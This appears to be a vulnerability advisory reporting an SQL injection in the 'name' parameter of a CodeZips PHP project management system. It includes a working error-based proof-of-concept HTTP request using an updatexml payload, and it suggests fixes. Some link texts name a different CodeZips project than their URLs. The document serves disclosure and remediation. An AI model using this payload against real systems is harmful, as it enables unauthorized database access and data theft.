 # CodeZips Project Management System In PHP And MYSQL With Source Code V1.0 /pages/forms/advanced.php SQL injection

## NAME OF AFFECTED PRODUCT(S)

- ` Project Management System In PHP And MYSQL With Source Code`

## Vendor Homepage

- [https://codezips.com/php/technical-discussion-forum-using-php-with-source-code/](https://codezips.com/php/project-management-system-in-php-and-mysql-with-source-code/)

## Software Link

- [https://codeload.github.com/codezips/Technical-Discussion-Forum/zip/master](https://codeload.github.com/codezips/project-management-system-php-mysql/zip/master)

## Vendor

- `codezips`

## Vulnerability Type

- `SQL injection`

## Root Cause

- A SQL injection vulnerability was found in the '/pages/forms/advanced.php' file of the 'Project Management System In PHP And MYSQL With Source Code' project.   The reason for this issue is that attackers inject malicious code from the parameter 'name' and use it directly in SQL queries without the need for appropriate cleaning or validation.   This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

  <img src="./image/1.jpg" style="zoom:150%;" />

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve  unauthorized database access, sensitive data leakage, data tampering,  comprehensive system control, and even service interruption, posing a  serious threat to system security and business continuity.

## DESCRIPTION

- During the security review of "Project Management System In PHP And MYSQL With Source Code", wangjiawei  discovered a critical SQL injection vulnerability in the "/pages/forms/advanced.php" file.   This vulnerability stems from insufficient  user input validation of the 'name' parameter, allowing attackers to inject malicious SQL queries.   Therefore, attackers can gain  unauthorized access to databases, modify or delete data, and access  sensitive information.   Immediate remedial measures are needed to ensure  system security and protect data integrity.

## Vulnerability details and POC

Vulnerability Name: 
- "name" Parameter

### poc
```
POST /pages/forms/advanced.php HTTP/1.1
Host: 192.168.75.230:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
Origin: http://192.168.75.230:8080
Sec-GPC: 1
Connection: close
Referer: http://192.168.75.230:8080/pages/forms/advanced.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=1' or updatexml(1,concat(0x7e,(database())),0) or '&id=1&year=1-1&email=123%40qq.com&phone=111&submit=Submit
```

<img src="./image/2.jpg" style="zoom:150%;" />

## Suggested fixes

1. **Use prepared statements and parameter binding:**
    Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered  by the user is treated as pure data and will not be interpreted as SQL  code.
2. **Input validation and filtering:**
    Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Regular security audits:**
    Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

